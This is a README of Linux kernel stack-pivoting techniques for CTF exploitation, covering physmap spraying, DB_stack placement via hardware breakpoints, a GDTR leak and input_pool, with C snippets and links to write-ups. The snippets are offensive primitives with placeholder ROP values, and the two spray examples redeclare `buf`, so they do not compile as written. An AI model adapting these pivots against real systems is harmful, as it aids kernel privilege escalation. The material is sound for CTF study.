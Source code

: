 # linux-kernel-stack-pivoting-trick
some tricks for linux kernel stack pivoting in CTF \[with smap|smep|kaslr\]

## direct mapping area [physmap]
- condition: leak physmap address
- exploit: mmap\[or other ways\] to spray rop chain
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char** argv, char** envp)
{
        // spray rop chain 0
        char buf[0x100000] = { 0 };
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }

        // spray rop chain 1
        char* buf = mmap(NULL, 0x100000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }
        getchar();

        return 0;
}
```
- example: [MINI-LCTF2022 kgadget](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir) by [@arttnba3](https://arttnba3.cn/about/) [with smap&&smep, but no kaslr]

## DB_stack [in per-cpu cpu_entry_area]
- condition: leak per-cpu cpu_entry_area after linux 6.2
- exploit: trigger hardware breakpoint to place rop chain in DB_stack
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <string.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sched.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <sys/ptrace.h>
#define DB_OFFSET(idx) ((void*)(&(((struct user*)0)->u_debugreg[idx])))
pid_t pid;
int status;
char buf[4];

void set_hbp(void *addr)
{
    if (ptrace(PTRACE_POKEUSER, pid, DB_OFFSET(0), addr) == -1)
    {
        printf("Failed to set dr_0\n");
        kill(pid, 9);
        exit(-1);
    }
    unsigned long dr_7 = (1<<0)|(1<<8)|(1<<16)|(1<<17)|(1<<18)|(1<<19);
    if (ptrace(PTRACE_POKEUSER, pid, DB_OFFSET(7), dr_7) == -1)
    {
        printf("Failed to set dr_7\n");
        kill(pid, 9);
        exit(-1);
    }
}

int main(int argc, char **argv, char **env)
{
    pid = fork();
    if (!pid)
    {
        cpu_set_t cpu_set;
        CPU_ZERO(&cpu_set);
        CPU_SET(0, &cpu_set);
        sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

        ptrace(PTRACE_TRACEME, 0, NULL, NULL);
        raise(SIGSTOP);
        // place rop chain
        __asm__(
        "mov r15,   0x11111111;"
        "mov r14,   0x22222222;"
        "mov r13,   0x33333333;"
        "mov r12,   0x44444444;"
        "mov rbp,   0x55555555;"
        "mov rbx,   0x66666666;"
        "mov r11,   0x77777777;"
        "mov r10,   0x88888888;"
        "mov r9,    0x99999999;"
        "mov r8,    0xaaaaaaaa;"
        "mov rax,   0xbbbbbbbb;"
        "mov rcx,   0xcccccccc;"
        "mov rdx,   0xdddddddd;"
        "mov rsi,   0xeeeeeeee;"
        "mov rdi,   0xffffffff;"
        );
        buf[0] = 0;
        exit(1);

    }
    waitpid(pid, &status, 0);
    set_hbp(buf);

    ptrace(PTRACE_CONT, pid, NULL, NULL);
    waitpid(pid, &status, 0);

    ptrace(PTRACE_CONT, pid, NULL, NULL);
    waitpid(pid, &status, 0);

    return 0;
}
```
- example: [SCTF2023 sycrop|moonpray](https://github.com/pray77/CVE-2023-3640) by [@pray77](https://github.com/pray77)
- bypass cea randomization \[in qemu\] [maybe just in CTF]:
  - [make cpu-entry-area great again](https://kqx.io/post/sp0/) - the trick raised by [@kqx](https://kqx.io/about/)
  - I know the trick in [wm_easyker && wm_easynetlink writeup](https://cnitlrt.github.io/wmctf2025/#wm_easyker) by [@cnitlrt](https://cnitlrt.github.io/about/)
  - same respect to [@TlmeT0B4d](https://github.com/TlmeT0B4d)
```c
#include <stdio.h>
#include <stdint.h>
#include <string.h>

int main() {
        unsigned char gdtr[0x100] = {0};
        asm volatile ("sgdt %0" : "=m"(gdtr) );
        uint16_t limit = *(uint16_t*)(gdtr + 0);
        uint64_t base = 0;
        memcpy(&base, gdtr + 2, 8);
        printf("GDTR.limit = 0x%04x\n", limit);
        printf("GDTR.base  = 0x%016llx\n", (unsigned long long)base);
        return 0;
}
```

## a area after kernel data [maybe just in CTF]
- condition: leak kbase
- exploit: mmap\[or other ways\] to spray rop chain
```c
#ifndef _GNU_SOURCE
#define _GNU_SOURCE
#endif

#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char** argv, char** envp)
{
        // spray rop chain 0
        char buf[0x100000] = { 0 };
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }

        // spray rop chain 1
        char* buf = mmap(NULL, 0x100000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
        for (int i = 0; i < 0x100000 / 0x1000; i++) {
                strcpy(buf+i*0x1000, "XiaozaYaPwner");
        }
        getchar();

        return 0;
}
```
- example: [WMCTF2025 wm_easyker](https://blog.xmcve.com/2025/09/22/WMCTF2025-Writeup/#title-5) by [@Polaris](https://www.xmcve.com/)

## &input_pool.hash.buf
- condition: leak kbase
- example:
  - https://github.com/google/security-research/blob/b8be9f3f78a45abf1da31795d66b38cb7ede79e2/pocs/linux/kernelctf/CVE-2025-21703_lts_2/docs/novel-techniques.md - the trick raised by [@u1f383](https://github.com/u1f383)
  - I know the trick in [wm_easyker && wm_easynetlink writeup](https://cnitlrt.github.io/wmctf2025/#wm_easyker) by [@cnitlrt](https://cnitlrt.github.io/about/)
